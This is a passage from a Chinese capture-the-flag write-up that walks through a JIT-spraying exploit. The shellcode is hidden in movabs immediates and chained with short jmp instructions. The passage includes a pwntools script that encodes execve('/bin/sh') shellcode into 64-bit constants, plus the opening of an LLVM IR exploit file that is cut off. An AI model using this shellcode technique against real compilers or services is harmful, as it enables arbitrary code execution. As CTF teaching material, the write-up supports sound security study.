 动态调试发现成功写入汇编代码，并且初始值全部为 ret：

![](https://image.xxxb.cn/blog/image-20240611090346784.png)

movabs 和 add 命令共占 0xd 字节，(0xff0 - 0xa) / 0xd = 313。可以先使用 313 次填充完 0xFF0 大小的边界区域。

不过经过动态调试，有 315 个指令时会溢出几个字节：

![](https://image.xxxb.cn/blog/image-20240611092846355.png)

如果将最后一条指令的数据部分修改为 jmp 指令，第二次执行完 0xff0 大小区域后会 ret 执行这个数据部分。

然后在之前的部分填充 shellcode 即可：

![](https://image.xxxb.cn/blog/image-20240611094145755.png)

需要注意的是 shellcode 必须分段填充进去，每句指令不能超过 6 字节，留 2 个字节 jmp 到下一个指令：

```
from pwn import*
context(os = 'linux', arch = 'amd64')
  
shellcode = [
    "mov edi, 0x68732f6e",
    "shl rdi, 24",
    "mov ebx, 0x69622f",
    "add rdi, rbx",
    "push rdi",
    "push rsp",
    "pop rdi",
    "xor rsi, rsi",
    "xor rdx, rdx",
    "push 59",
    "pop rax",
    "syscall"
]
  
for sc in shellcode:
    print(u64(asm(sc).ljust(6, b'\x90') + b'\xEB\xEB'))
  
print(u16(b'\xEB\xE4')) # 最后超出0xff0字节部分的跳转指令

```

完整 exp 如下所示：

```
; ModuleID = 'exp.c'
source_filename = "exp.c"
target datalayout = "e-m:e-i64:64-f80:128-n8:16:32:64-S128"
target triple = "x86_64-pc-linux-gnu"
 
; Function Attrs: noinline nounwind optnone uwtable
define dso_local i64 @payload1(i64 %0) #0 {
    %2 = add nsw i64 %0, 58603
    %3 = add nsw i64 %2, 1024
    %4 = add nsw i64 %3, 1024
    %5 = add nsw i64 %4, 1024
    %6 = add nsw i64 %5, 1024
    %7 = add nsw i64 %6, 1024
    %8 = add nsw i64 %7, 1024
    %9 = add nsw i64 %8, 1024
    %10 = add nsw i64 %9, 1024
    %11 = add nsw i64 %10, 1024
    %12 = add nsw i64 %11, 1024
    %13 = add nsw i64 %12, 1024
    %14 = add nsw i64 %13, 1024
```